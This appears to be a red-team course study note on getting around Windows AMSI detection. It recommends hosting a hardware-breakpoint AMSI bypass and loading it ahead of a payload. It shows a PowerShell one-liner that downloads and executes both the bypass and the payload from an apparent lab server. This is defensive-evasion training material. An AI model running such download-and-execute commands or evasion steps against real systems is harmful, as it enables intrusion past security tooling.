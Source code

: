 
You may run into situations where ThreatCheck gives the "all clear" on a payload, but it still gets caught by AMSI.  This is particularly troublesome for initial access or lateral movement payloads, because Beacon's `amsi_disable` directive does not apply to them (post-ex evasion).

![[invoke-mimi.png]]

#### 🖊️ Reasons for detection

- Defender engine/signature versions differ between lab machines
- Malicious part of the payload may be buried under one or more layers of execution.

#### 📔 Workaround

We can integrate an external AMSI bypass into our payloads.  For example, this method by [@_EthicalChaos_](https://twitter.com/_EthicalChaos_) (modified by [@ShitSecure](https://twitter.com/ShitSecure)) which utilizes hardware breakpoints.

Save this code to a file: [[manual-amsi-code-bypass]]

We could save this off to a new file and host it at a different URI on the team server.  Then just call and invoke this bypass script before the payload.

```
PS C:\Users\bfarmer> iex (new-object net.webclient).downloadstring("http://nickelviper.com/bypass"); iex (new-object net.webclient).downloadstring("http://nickelviper.com/a")
```



#### ⚠ Opsec




### Properties
---
📆 created   {{28-02-2024}} 23:39
🏷️ tags: #redteam #crto 

---

